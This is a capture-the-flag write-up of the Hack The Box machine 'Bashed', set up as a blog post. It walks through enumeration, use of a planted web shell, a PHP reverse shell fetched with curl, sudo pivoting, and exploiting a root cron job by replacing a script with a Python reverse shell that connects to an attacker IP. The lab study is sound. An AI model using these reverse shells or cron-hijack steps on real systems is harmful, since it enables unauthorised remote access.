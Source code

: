 ```yaml
---
title: "Bashed"
date: 2023-06-24T23:52:47+02:00
tags: [""]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "Desc Text."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Bashed
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Bashed

![Untitled](/HTB/bashed-icon.png)

## Tools Used

- Nmap

## Port Scanning

![Untitled](/HTB/bashed-1.png)

In the port scan we can see that the only service running is a web server.

## Enumeration

![Untitled](/HTB/bashed-4.png)

![/Untitled](/HTB/bashed-5.png)

If we visit the website there are only one article with a web reverse shell information called phpbash, and a url to the github project.

In the url we can find some useful information like how works, this shell removes the necessity of do a traditional reverse shell.

Let’s try this but first some fuzzing

![Untitled](/HTB/bashed-6.png)

We can see that there is a uploads directory maybe we can try to upload a reverse shell.

With nikto, I found that the /dev directory maybe its useful

![Untitled](/HTB/bashed-7.png)

Inside the directory, there are two files, the two of them are the reverse shell which we have seen in the previous github project (seems like a reverse shell to his own machine). If we try to run one we get in.

## Gaining an Initial Foothold

![Untitled](/HTB/bashed-8.png)

We are logged like the web service and the user flag is in the arrexel home directory.

![Untitled](/HTB/bashed-9.png)

Now let’s elevate privilege

If we go to the / directory we can see that inside there is a script folder created by scriptmanager user.

When we try sudo -l we found that the the www-data user has acces to scriptmanager as sudo.

Let’s try `sudo -u scriptmanager -e /bin/bash` 

![Untitled](/HTB/bashed-10.png)

Don’t seem to work, maybe the web server doesn’t allow some commands.

Now let’s try to upload the reverse shell and this time trying to connect it to our machine instead of using the shell on /dev.

One way is to create a http server and curl the file in the victim machine. We need to modify the reverse shell file that I get [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) with our ip and port.

![Untitled](/HTB/bashed-11.png)

![Untitled](/HTB/bashed-12.png)

Now let’s open a listening port with netcat and run the shell.

![Untitled](/HTB/bashed-13.png)

![Untitled](/HTB/bashed-14.png)

Before nothing, we are going to pass from a dumb shell to a fully interactive one.

First once we spawn a bash with `python -c 'import pty; pty.spawn("/bin/bash")'` then lets keep the nc in background with ctrl^z, once done we use `stty raw -echo` and then `fg` to return to the web shell but fully interactive this time.

Let’s retry `sudo -u scriptmanager /bin/bash`

![Untitled](/HTB/bashed-15.png)

We are scriptmanager now, let’s see what we can do in the /scripts folder. It’s seems like there are two files in the folder. One of them [test.py](http://test.py) look like this:

```bash
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

This file is created by scriptmanager but the execution of the file needs be owned by root somehow because inside the execution we are opening the test.txt file that only can be modified with root permissions. If you observe the creation time of the file test.txt, you will notice that it undergoes changes every minute. This pattern strongly suggests the presence of a cron job, which is owned by the root user, and is responsible for executing the test.py script every minute.

We can use this to our advantage and change the content of the [test.py](http://test.py) file to a reverse shell and get the system own.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.17",1234)) //change this
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I get this reverse shell from [pentestmonkey’s](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) handy dandy list of reverse shells.

Let’s set up a listener in the port 1234 and let the magic happen.

![Untitled](/HTB/bashed-17.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.

**Thank you for reading, and happy hacking! 😄**